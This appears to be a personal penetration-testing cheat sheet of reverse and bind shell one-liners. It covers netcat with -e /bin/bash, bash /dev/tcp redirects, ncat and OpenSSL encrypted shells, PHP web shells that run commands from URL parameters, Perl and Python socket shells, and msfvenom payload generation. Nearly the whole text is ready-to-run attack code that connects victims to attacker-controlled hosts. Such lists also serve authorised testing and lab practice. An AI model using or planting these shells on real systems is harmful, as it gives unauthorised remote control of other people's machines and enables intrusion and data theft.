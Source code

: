 Bind_Reverse_shell


# Always check FW from both side

## Shellerator roxx for a quick reverse shell 

---

## Send a file

```nc -nlvp 5555 > incoming.txt```
```nc -nv <ip> 5555 < filetosend.txt```

---

## Reverse shell nc traditional :

```nc -nlvp 5555```
```nc -nv <ip> 5555 -e /bin/bash```

- I had issues sometimes from windows to a linux, try ```nc -lvp``` instead of ```nc -nlvp```

---

## Bash reverse shell :

```bash -i > /dev/tcp/IP/PORT 2>&1 0>&1```

---

## Encrypted shell :

```
ncat --exec /bin/bash --allow <ip> -vnl 5555 --ssl
ncat -v <ip> 5555 --ssl
```

---

## With OpenSSL :

- Generate keys on the attacker box : ```openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes```

- Then start the listener : ```openssl s_server -quiet -key key.pem -cert cert.pem -port 5555```

- Victime : ```mkfifo /tmp/t; /bin/sh -i < /tmp/t 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:5555 > /tmp/t; rm /tmp/t```


---

## IIS

- Use .asp file or .aspx


--- 

## PHP 

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.156 LPORT=5555 -o drive.php

<?php $sock=fsockopen("10.11.0.156",5555);exec("/bin/sh -i <&3 >&3 2>&3");?>

<?php echo shell_exec($_GET['cmd']);?>

<?php system('cmd');?>

<?php echo shell_exec('bash -i > /dev/tcp/10.11.0.156/5555 2>&1 0>&1');?>


<?php ("bash -i > /dev/tcp/10.11.0.156/5555 0>&1 2>&1"):?>

<?php echo shell_exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>

<?php exec("telnet 10.11.0.156 5555 | /bin/sh | telnet 10.11.0.156 5555");?>

<?php exec("exec /bin/sh 0</dev/tcp/10.11.0.156/5555 1>&0 2>&0");?>

<?php exec("php -r $s=fsockopen(10.11.0.156,5555);exec(/bin/sh -i <&3 >&3 2>&3);");?>
```	


--- 

## perl shell :

```
use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

---

## Javascript :

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```
If you are attacking a Linux host:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```



